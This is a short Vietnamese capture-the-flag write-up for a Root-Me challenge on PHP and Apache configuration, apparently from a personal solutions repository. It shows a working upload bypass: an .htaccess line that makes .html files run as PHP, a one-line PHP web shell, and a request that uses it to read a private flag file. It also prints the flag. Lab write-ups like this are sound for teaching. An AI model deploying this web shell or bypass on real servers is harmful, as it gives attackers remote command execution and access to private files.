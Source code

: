 # [PHP - Apache configuration](https://www.root-me.org/en/Challenges/Web-Server/PHP-Apache-configuration)

## Solutions

- Upload một file có tên `.htaccess` với nội dung là:

```text
AddHandler application/x-httpd-php .html
```

- Upload một file có tên là `test.html` với nội dung là:

```php
<?php
system($_GET['command']);
?>
```

- Gửi request đến URL mà server trả về kèm query parameter `?command=cat%20../../private/flag.txt` là lấy được flag: `ht@cc3ss2RCE4th%w1n`

## Giải thích

- Mỗi file `.htaccess` sẽ có ảnh hưởng đến directory chứa nó và các subdirectory.
- Mỗi người chơi rootme sẽ được cung cấp một sessionID cũng chính là tên folder chứa tất cả các file người dùng upload lên.
- `AddHandler application/x-httpd-php .html` sẽ làm cho các file html cùng directory với file `.htacccess` này chạy như file php.

## References

- <https://docs.oracle.com/cd/B14099_19/web.1012/q20206/howto/htaccess.html>
